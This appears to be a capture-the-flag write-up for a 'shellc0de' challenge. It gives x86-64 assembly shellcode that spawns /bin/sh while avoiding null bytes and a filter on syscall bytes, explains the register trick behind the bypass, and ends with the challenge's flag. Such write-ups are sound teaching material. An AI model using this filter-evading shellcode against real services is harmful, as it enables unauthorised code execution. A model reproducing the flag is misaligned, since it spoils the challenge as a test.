


# shellc0de
## Description
> copy from [edu-ctf](https://edu-ctf.csie.org/problems/1)
>
> flag is same
>
> 但 flag 在你連進來的目錄裡 直接 cat 他八 > <
>
> nc sqlab.zongyuan.nctu.me 6004
---
## Writeup
We need to upload shellcode to get shell, but there can't be NULL(\00) and syscall(\x0F\x05).

I used the same shellcode as in `retshell`, but I needed to alter the syscall part. The method is to use 2 added values to become \x0F\x05, push it to stack and let rsp remember the value, then jump back to the register that stores rsp.

```assembly
push rax
xor rdx, rdx
xor rsi, rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
xor rcx, rcx
mov cx, 0x40e
add cx, 0x101
push cx
mov r10, rsp
jmp r10
```

Note that if you write cs as rcs it will cause null bytes(as shown below).



This is because rcx is a 64-bit register, it will add 0 automatically to make up the length. cx is lower 16 bits, so it can store 0e04 or 0101 without creating NULL bytes.



flag : FLAG{5hellc0d1ng_f0r_5yscal1_:p}